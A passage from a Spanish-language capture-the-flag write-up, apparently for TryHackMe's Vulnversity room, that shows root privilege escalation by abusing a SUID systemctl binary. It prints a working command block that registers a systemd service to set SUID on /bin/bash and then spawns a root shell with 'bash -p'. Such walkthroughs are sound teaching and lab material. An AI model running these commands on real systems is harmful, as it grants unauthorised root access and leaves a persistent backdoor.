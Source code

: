 
Como podemos ver, podemos abusar de este binario fácilmente, además de que nos permite ejecutar cualquier código malicioso que queramos

Para conseguir la última flag haremos lo siguiente:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Si nos percatamos, lo único que modificamos de la información que nos provee `GTFOBins`, fue el código a ejecutar, en este caso, estamos asignando un permiso `SUID` a la `/bin/bash`, para posteriormente, a través del parámetro `-p`, ejecutar el binario `/bin/bash` manteniendo permisos y privilegios del usuario al que le pertenece el binario, en este caso al usuario root. Otro aspecto que se modificó, fue utilizar el binario `/bin/systemctl` desde su ruta absoluta, mas no de su ruta relativa.

Una vez hemos abusado del binario `/bin/systemctl`, haremos lo siguiente:

```
/bin/bash -p
```

Una vez siendo root, podemos pasar a buscar su respectiva flag, esto lo podemos hacer así:

```bash
find / -name root.txt
```
 
![20](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-25-Vulnversity-TryHackMe/20.png){:class="blog-image" onclick="expandImage(this)"} 
